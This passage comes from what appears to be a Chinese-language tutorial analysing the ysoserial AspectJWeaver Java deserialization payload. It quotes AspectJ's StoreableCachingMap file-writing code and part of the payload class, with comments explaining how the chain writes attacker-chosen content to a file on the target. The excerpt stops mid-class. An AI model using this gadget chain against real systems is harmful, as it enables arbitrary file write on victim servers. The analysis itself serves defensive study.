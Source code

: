    ```java
       @Override
       public Object put(Object key, Object value) {
           try {
               String path = null;
               byte[] valueBytes = (byte[]) value;
   
               if (Arrays.equals(valueBytes, SAME_BYTES)) {
                   path = SAME_BYTES_STRING;
               } else {
                   path = writeToPath((String) key, valueBytes);
               }
               Object result = super.put(key, path);
               storeMap();
               return result;
           } catch (IOException e) {
               trace.error("Error inserting in cache: key:" +
                           key.toString() + "; value:" + value.toString(), 
                           e);
               Dump.dumpWithException(e);
           }
           return null;
       }
   
       private String writeToPath(String key, byte[] bytes) throws IOException {
           String fullPath = folder + File.separator + key;
           FileOutputStream fos = new FileOutputStream(fullPath);
           fos.write(bytes);
           fos.flush();
           fos.close();
           return fullPath;
       }
   
   }
   ```

6. 接下来分析ysoserial的AspectJWeaver Payload

   ```java
   public class AspectJWeaver implements ObjectPayload<Serializable> {
   
       public Serializable getObject(final String command) throws Exception {
           // 从命令行获取用户输入，并用分号作为分隔符分开
           int sep = command.lastIndexOf(';');
           if ( sep < 0 )
               throw new IllegalArgumentException("Command format is: <filename>;<base64 Object>");
           String[] parts = command.split(";");
           String filename = parts[0];
           byte[] content = Base64.decodeBase64(parts[1]);
   
           // StoreableCachingMap是AspectJWeaver中SimpleCache的一个静态内部类
           // 使用反射获取到其构造方法
           Constructor ctor = Reflections.getFirstCtor(
               "org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
           // 传入构造参数，其中第一个参数是StoreableCachingMap的folder参数，是文件上传的目标目录
           // 修改第一个参数可以定义发起攻击时文件在被攻击机器文件系统中的位置
           Object simpleCache = ctor.newInstance(".", 12);
           // ConstantTransformer将构造参数作为transform的结果返回
           Transformer ct = new ConstantTransformer(content);
           // 使用ct作为StoreableCachingMap的Transformer
           // 便于调用lazyMap调用get()在Key不存在时生成以“该key为key”:“以用户输入内容作为value”的Entry
           // 并将该Entry插入StoreableCachingMap
           Map lazyMap = LazyMap.decorate((Map)simpleCache, ct);
           // TiedMapEntry的构造函数为一个Map和一个Key
           // TiedMapEntry计算hashCode()时会调用Map.getValue(Key)从而触发lazyMap.get(filename)
   ```